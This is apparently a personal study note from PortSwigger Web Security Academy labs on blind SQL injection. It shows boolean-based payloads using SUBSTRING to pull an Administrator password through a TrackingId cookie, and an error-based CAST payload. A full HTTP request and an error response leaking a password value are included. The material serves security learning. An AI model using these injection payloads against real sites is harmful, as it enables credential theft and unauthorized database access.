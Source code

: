 
## Boolean - Internal server error

Tracking id is used to kepp track of a users activity on the website

In the request
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

In the background
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

A way to try and get a boolean result here is to edit the TrackingId value, for example by adding to it.

Success: When a TrackingId that was sent to us from the server (by not sending an id cookie we get a new one) we get a Welcome back message on the page (in the html). We don't get this message when we modify the TrackingId cookie.

**We can use this as a boolean test.**

We tried again by adding `…xyz' AND '1'='1` versus `…xyz' AND '1'='2`. Giving:
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND '1'='1'`
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND '1'='2'`

This also worked as expected. When adding `and true` to the end it is still true while when adding `and false` it's false.

We can do tests for the password of the user Administrator like this:
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

Using < and > might be useful for manual tests, but we can also make a simple python script

![[Scripts/find_password_boolean copy.py]]


## Using conversion errors to get output

`Cookie: TrackingId='||CAST((SELECT password FROM users limit 1) AS int) --; session=8U6gCmtdwVmleBFAYhXe7mZwKiMkyUkh`

We had to remove the full tracking id to get enough chars or we got
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'mb9Nky8IkRLT'||CAST((SELECT password FROM users limit 1) AS '. Expected  char
```


```http
GET /login HTTP/2
Host: 0abd0062031487c8806f530500b60093.web-security-academy.net
Cookie: TrackingId='||CAST((SELECT password FROM users limit 1) AS int) --; session=8U6gCmtdwVmleBFAYhXe7mZwKiMkyUkh
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd0062031487c8806f530500b60093.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Dnt: 1
Sec-Gpc: 1
Te: trailers


```


```http
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2413

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Visible error-based SQL injection</title>
    </head>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Visible error-based SQL injection</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                    </header>
                    <h4>ERROR: invalid input syntax for type integer: "yyy7kbdqpr1cl9mvcl8b"</h4>
                    <p class=is-warning>ERROR: invalid input syntax for type integer: "yyy7kbdqpr1cl9mvcl8b"</p>
                </div>
            </section>
        </div>
    </body>
</html>

```